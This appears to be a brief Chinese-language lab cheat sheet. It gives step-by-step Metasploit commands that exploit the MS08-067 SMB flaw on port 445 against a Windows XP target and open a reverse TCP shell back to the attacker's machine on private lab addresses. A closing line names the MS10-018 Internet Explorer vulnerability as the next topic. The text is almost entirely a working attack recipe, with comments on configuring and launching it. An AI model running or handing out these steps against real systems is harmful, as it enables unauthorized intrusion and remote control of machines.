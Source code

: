 xshell中
msfconsole
//靶机是xp pro很老的版本，ms08_067利用445端口漏洞
msf> use exploit/windows/smb/ms08_067_netapi
msf> set payload generic/shell_reverse_tcp
msf> show options //显示需要配置哪些东西
msf> set RHOST 192.168.253.132 // 靶机ip
msf> set LHOST 192.168.253.130 // 本机ip
msf> run //开始攻击，如果成功会进入靶机的cmd
//进入cmd后，ctrl+brackspace才是退格 ctrl+\是返回主机
//////////////////////////////////////////////////////////////////////
ms10_018浏览器（ie6 ie7）漏洞

